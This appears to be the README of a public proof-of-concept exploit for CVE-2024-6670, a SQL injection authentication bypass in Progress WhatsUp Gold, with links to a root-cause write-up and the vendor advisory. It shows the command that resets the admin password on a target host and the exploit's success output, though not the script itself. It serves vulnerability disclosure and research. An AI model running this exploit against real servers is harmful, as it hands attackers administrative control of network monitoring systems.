

# CVE-2024-6670
PoC for Progress Software WhatsUp Gold HasErrors SQL Injection Authentication Bypass Vulnerability (CVE-2024-6670)


A root cause analysis of the vulnerability can be found on my blog:

https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/

[](https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/)


## Usage
```
python CVE-2024-6670.py --newpassword Pwned --target-url https://192.168.201.150

 _______ _     _ _______ _______  _____  __   _ _____ __   _  ______   _______ _______ _______ _______
 |______ |     | |  |  | |  |  | |     | | \  |   |   | \  | |  ____      |    |______ |_____| |  |  |
 ______| |_____| |  |  | |  |  | |_____| |  \_| __|__ |  \_| |_____| .    |    |______ |     | |  |  |

        (*) Progress Software WhatsUp Gold HasErrors SQL Injection Authentication Bypass Vulnerability (CVE-2024-6670)

        (*) Exploit by Sina Kheirkhah (@SinSinology) of SummoningTeam (@SummoningTeam), shoutout to @indishell1046

        (*) Technical details: https://summoning.team/blog/progress-whatsup-gold-sqli-cve-2024-6670/


[^_^] Starting the exploit...
[*] Used remote primitive to encrypt our passowrd
[*] encrypted password extracted -> 0x03000000100000000EABC7F4B1C8263DADB17E4BED835C0F
[+] Exploit finished, you can now login using the username -> admin and password -> Pwned


```

## Mitigations
Update to the latest version or mitigate by following the instructions within the Progress Advisory
* https://community.progress.com/s/article/WhatsUp-Gold-Security-Bulletin-August-2024

## Manish Kishan Tanwar
If it wasn’t because of the motivation and lessons that my dear friend [Manish](https://x.com/indishell1046) has taught me over the years I have known him, I wouldn’t be able to exploit this bug, thank you my friend.

## Follow Us on Twitter(X) for the latest security research:
*  [SinSinology](https://x.com/SinSinology)
*  [SummoningTeam](https://x.com/SummoningTeam)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

